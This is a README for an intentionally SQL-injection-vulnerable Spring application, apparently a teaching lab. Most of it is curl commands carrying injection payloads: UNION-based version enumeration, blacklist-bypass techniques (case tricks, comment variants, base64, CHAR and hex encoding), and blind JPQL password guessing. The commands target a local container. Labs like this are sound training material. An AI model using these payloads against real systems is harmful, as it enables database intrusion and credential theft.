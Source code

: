 # SQLi vulnerable Spring Application

<p align="center">
  <img width="600" src="intro.svg">
</p>

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

Use 

```
curl localhost:5808/sqlidemo/vulnbyid -d id -d blacklistconfig=help
```

to get a help display of all possible blacklist configurations.

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=add_oddsinglequotes
```

or as keyword

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=add_oddsinglequotes
```

##### Any Uppercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) -- " -d blacklistconfig=block_anyuppercase
```

##### Any Lowercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=block_anylowercase
```

##### Keyword Sequences Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(@@version) -- " -d blacklistconfig=block_keywordsequences
```

##### Comment Double Dash Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) #" -d blacklistconfig=block_comment_doubledash
```

##### All Comment Types Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=block_comment_doubledash,block_comment_hash
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) -- " -d blacklistconfig=block_badstrings
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N') -- " -d blacklistconfig=block_badstrings
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- " -d blacklistconfig=block_badstrings,block_concatenation
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64,block_char_function
```

##### All together

```
curl http://localhost:5808/sqlidemo/vulnbyid \       
\
-d id=\                                                                    
"1' unionunion select select null,null,(select variable_value from \       
information_schema.global_variables where variable_name=0x56455253494f4e) \
as username from user where id='1" \
\                       
-d blacklistconfig=\      
add_oddsinglequotes,\     
strip_keywordsequences,\  
block_comment_doubledash,\
block_comment_hash,\ 
block_anyuppercase,\ 
block_badstrings,\   
block_concatenation,\
block_base64,\     
block_char_function
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### Java based

```
curl localhost:5808/sqlidemo/safebyid -d id="1' AND SUBSTRING(password,1,1)='p"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/safebyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
